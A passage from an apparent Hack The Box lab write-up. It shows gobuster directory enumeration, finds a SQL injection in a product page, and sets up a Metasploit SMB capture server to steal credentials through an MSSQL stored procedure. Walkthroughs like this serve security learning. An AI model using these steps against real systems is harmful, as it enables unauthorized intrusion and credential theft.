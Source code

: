 Gobuster HTTPS:
{% highlight shell %}
root@kali:~# gobuster -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u https://10.10.10.104/

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.104/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Timeout      : 10s
=====================================================
2019/02/17 14:03:14 Starting gobuster
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
/Remote (Status: 302)
=====================================================
2019/02/17 14:17:30 Finished
=====================================================
{% endhighlight %}

Sounds like we have same website on port 80 and on port 443.

### 2.Getting User
We have found 2 interesting pages.
{% highlight shell %}
/remote -> redirects to Windows Powershell Web Access
/mvc    -> product list page
{% endhighlight %}

Product List page:
![placeholder](https://inar1.github.io/public/images/2019-02-27/2019-02-26-21-09-31.png)

If we click each product of this list, we can redirect to following url like this.

{% highlight shell %}
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18
{% endhighlight %}

And, if we add a single quote end of this url, we can get this error

![placeholder](https://inar1.github.io/public/images/2019-02-27/2019-02-26-19-00-57.png)

This means that Product.aspx has SQL injection vulnerability.<br>
In this case, we can actually use an undocumented stored procedure for MSSQL to steal SMB credentials.<br>
At first, we have to run our own SMB server to receive connection. We can do this with Metasploit module.

{% highlight shell %}
msf5 > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /root/pw.txt
johnpwfile => /root/pw.txt
msf5 auxiliary(server/capture/smb) > set srvhost 10.10.14.23
srvhost => 10.10.14.23
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.

[*] Started service listener on 10.10.14.23:445 
[*] Server started.
{% endhighlight %}
